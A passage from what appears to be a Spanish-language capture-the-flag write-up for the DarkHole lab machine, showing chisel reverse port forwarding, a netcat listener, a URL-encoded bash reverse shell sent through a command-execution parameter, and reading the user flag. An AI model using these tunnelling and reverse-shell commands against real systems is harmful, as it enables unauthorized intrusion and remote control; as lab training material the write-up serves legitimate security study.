 ```ruby

2022-12-22 02:26:22 (71.4 MB/s) - ‘chisel’ saved [8077312/8077312]

jehad@darkhole:/opt/web$ ls
chisel  index.html  index.php
jehad@darkhole:/opt/web$ 

```
### Port Forwarding
Para crear el port forwarding, ejecutar el desde el equipo atacante que funcionara como server el siguiente comando:

##### Maquina local o server
```ruby
./chisel server --reverse -p 1104
2022/12/21 21:35:51 server: Reverse tunnelling enabled
2022/12/21 21:35:51 server: Fingerprint i2CESBQlfHqh+VrwDA/hR/wZqi8qQLA9dM4uu8gltx4=
2022/12/21 21:35:51 server: Listening on http://0.0.0.0:1104
```
##### Maquina victima "darkhole" o cliente
```ruby
jehad@darkhole:/opt/web$ chmod +x chisel 
jehad@darkhole:/opt/web$ ./chisel client 192.168.200.139:1104 R:9999:127.0.0.1:9999
2022/12/22 02:41:28 client: Connecting to ws://192.168.200.139:1104
2022/12/22 02:41:28 client: Connected (Latency 59.800043ms)
```
Para validar que el proceso de remotPortForwarding, desde el explorador ingresamos por el servidor local.

![alt text](https://i.postimg.cc/x8XS2rFy/imagen.png)

Levantar una conexion reversa con netcat, para ejecutar una conexion reversa.
```ruby
sudo nc -nlvp 443
[sudo] password for s3cur1ty3c: 
listening on [any] 443 ...
```

En la imagen anterior se puede observar que el servidor permite la ejecución de codigo remoto, por lo se puede utilizar para la ejecutar una shell reversa.
```ruby
http://192.168.200.139:9999/?cmd=bash -c "bash -i %26>/dev/tcp/192.168.200.139/443  0>%261"
```
El porcentaje `%26 -->&`, se utiliza para urlencodear el caracter `&`, como resultado obtendremos al shell reversa.

```ruby
sudo nc -nlvp 443
[sudo] password for s3cur1ty3c: 
listening on [any] 443 ...
connect to [192.168.200.139] from (UNKNOWN) [192.168.200.140] 40520
bash: cannot set terminal process group (1237): Inappropriate ioctl for device
bash: no job control in this shell
losy@darkhole:/opt/web$ 
```
Podemos ingresar a la carpeta home del usuario losy para observar, la flag user.txt.
```ruby
losy@darkhole:/opt/web$ cd ~
losy@darkhole:~$ ls
ls
user.txt
losy@darkhole:~$ cat user.txt   
cat user.txt
DarkHole{'This_is_the_life_man_better_than_a_cruise'}
losy@darkhole:~$ 
```